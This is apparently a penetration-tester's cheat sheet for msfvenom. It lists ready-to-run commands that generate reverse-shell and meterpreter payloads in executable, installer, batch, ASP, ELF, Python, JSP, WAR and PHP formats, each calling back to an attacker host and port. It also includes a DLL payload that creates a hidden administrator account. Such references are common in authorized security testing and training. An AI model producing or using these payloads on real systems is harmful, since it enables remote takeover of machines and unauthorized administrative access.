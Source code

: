 ### List available formats (or payloads, archs, platforms, etc)
```
msfvenom -l format
```

### EXE
```
msfvenom -p windows/x64/meterpreter_reverse_http lhost=<lhost> lport=<lport> -f exe > <file>.exe
```

### MSI
```
msfvenom -p windows/shell/reverse_tcp lhost=<lhost> lport=<lport> -f msi > <file>.msi
```

### CMD
```
msfvenom -p cmd/windows/reverse_powershell lhost=<lhost> lport=<lport> > <file>.bat
```

### ASP
```
msfvenom -p windows/shell_reverse_tcp lhost=<lhost> lport=<lport> -f asp > <file>.asp
```

### DLL
```
msfvenom -p windows/exec CMD="cmd /c net user <user> <password> /add && net localgroup administrators <user> /add" -f dll > <file>.dll
```

### ELF
```
msfvenom -p linux/x64/shell_reverse_tcp lhost=<lhost> lport=<lport> -f elf > <file>.elf
msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o <file>.elf
```

### Python
```
msfvenom -p linux/x64/shell_reverse_tcp lhost=<lhost> lport=<lport> -f python
```

### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=<lhost> lport=<lport> -f raw > <file>.jsp
```

### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=<lhost> lport=<lport> -f war > <file>.war
```

### PHP (add <?php ... ?> afterwards)
```
msfvenom -p php/reverse_php lhost=<lhost> lport=<lport> -f raw > <file>.php
```

### Specify custom input
```
cat test.sh | msfvenom -p - -a x86_64 --platform linux -f c
```

